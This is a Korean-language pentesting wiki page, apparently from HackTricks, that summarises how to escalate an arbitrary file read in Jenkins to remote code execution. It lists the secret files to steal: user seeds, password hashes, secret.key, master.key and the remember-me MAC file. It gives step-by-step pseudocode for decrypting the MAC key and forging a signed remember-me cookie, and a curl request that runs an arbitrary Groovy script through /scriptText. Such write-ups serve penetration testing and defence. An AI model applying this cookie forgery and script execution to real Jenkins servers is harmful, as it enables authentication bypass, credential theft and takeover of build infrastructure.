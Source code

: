 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

이 블로그 게시물에서는 Jenkins의 Local File Inclusion 취약점을 RCE로 변환하는 훌륭한 방법을 찾을 수 있습니다: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

이것은 임의의 쿠키를 조작하여 RCE를 얻기 위해 로컬 파일 읽기를 악용하는 게시물의 요약입니다. 제가 직접 요약을 작성할 시간이 생길 때까지의 내용입니다:

### Attack Prerequisites

- **Feature Requirement:** "Remember me"가 활성화되어 있어야 합니다 (기본 설정).
- **Access Levels:** 공격자는 Overall/Read 권한이 필요합니다.
- **Secret Access:** 주요 파일에서 이진 및 텍스트 콘텐츠를 읽을 수 있는 능력.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

- 각 사용자에 대한 `$JENKINS_HOME/users/*.xml`에서 사용자 구성 및 비밀을 액세스하여 다음을 수집합니다:
- **Username**
- **User seed**
- **Timestamp**
- **Password hash**

**Secret Key Extraction**

- 쿠키 서명에 사용되는 암호화 키를 추출합니다:
- **Secret Key:** `$JENKINS_HOME/secret.key`
- **Master Key:** `$JENKINS_HOME/secrets/master.key`
- **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

- **Calculate Token Expiry Time:**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // 현재 시간에 1시간 추가
```

- **Concatenate Data for Token:**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**MAC Key Decryption**

- **Decrypt MAC Key File:**

```javascript
key = toAes128Key(masterKey)  // 마스터 키를 AES128 키 형식으로 변환
decrypted = AES.decrypt(macFile, key)  // .mac 파일을 복호화
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

- **Compute HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey) // 토큰과 MAC 키를 사용하여 HMAC 계산
tokenSignature = bytesToHexString(mac) // MAC을 16진수 문자열로 변환
```

**Cookie Encoding**

- **Generate Final Cookie:**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // 쿠키 데이터를 Base64로 인코딩
```

#### Step 3: Code Execution

**Session Authentication**

- **Fetch CSRF and Session Tokens:**
- `/crumbIssuer/api/json`에 요청을 보내 `Jenkins-Crumb`를 얻습니다.
- 응답에서 `JSESSIONID`를 캡처하여 remember-me 쿠키와 함께 사용합니다.

**Command Execution Request**

- **Send a POST Request with Groovy Script:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Groovy 스크립트를 사용하여 시스템 수준의 명령이나 Jenkins 환경 내에서 다른 작업을 실행할 수 있습니다.

제공된 curl 명령 예시는 임의의 코드를 안전하게 실행하기 위해 필요한 헤더와 쿠키를 사용하여 Jenkins에 요청을 보내는 방법을 보여줍니다.

{{#include ../../banners/hacktricks-training.md}}
